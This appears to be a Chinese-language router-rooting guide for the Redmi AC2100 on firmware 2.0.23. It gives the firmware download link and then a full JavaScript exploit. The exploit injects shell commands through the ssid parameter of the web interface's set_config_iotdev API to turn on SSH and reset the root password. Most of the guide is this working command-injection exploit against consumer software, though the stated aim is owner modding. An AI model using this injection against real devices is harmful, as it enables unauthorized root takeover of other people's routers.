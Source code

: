 #### 1. 确认 stock 系统版本

确认系统版本是否为 2.0.23，如果不是，则在系统内手动升级到该版本 <http://cdn.cnbj1.fds.api.mi-img.com/xiaoqiang/rom/rm2100/miwifi_rm2100_all_fb720_2.0.23.bin>

#### 2. 获得 ssh

使用 web 漏洞，获得 ssh

```js
// Work for RedMi 2100 firmware 2.0.23
// http://cdn.cnbj1.fds.api.mi-img.com/xiaoqiang/rom/rm2100/miwifi_rm2100_all_fb720_2.0.23.bin

function getSTOK() {
    let match = location.href.match(/;stok=(.*?)\//);
    if (!match) {
        return null;
    }
    return match[1];
}

function execute(stok, command) {
    command = encodeURIComponent(command);
    let path = `/cgi-bin/luci/;stok=${stok}/api/misystem/set_config_iotdev?bssid=SteelyWing&user_id=SteelyWing&ssid=-h%0A${command}%0A`;
    console.log(path);
    return fetch(new Request(location.origin + path));
}

function enableSSH() {
    stok = getSTOK();
    if (!stok) {
        console.error('stok not found in URL');
        return;
    }
    console.log(`stok = "${stok}"`);

    password = prompt('Input new SSH password');
    if (!password) {
        console.error('You must input password');
        return;
    }

    execute(stok, 
`
nvram set ssh_en=1
nvram commit
sed -i 's/channel=.*/channel=\\"debug\\"/g' /etc/init.d/dropbear
/etc/init.d/dropbear start
`
    )
        .then((response) => response.text())
        .then((text) => console.log(text));
    console.log('New SSH password: ' + password);
    execute(stok, `echo -e "${password}\\n${password}" | passwd root`)
        .then((response) => response.text())
        .then((text) => console.log(text));
}

enableSSH();
```
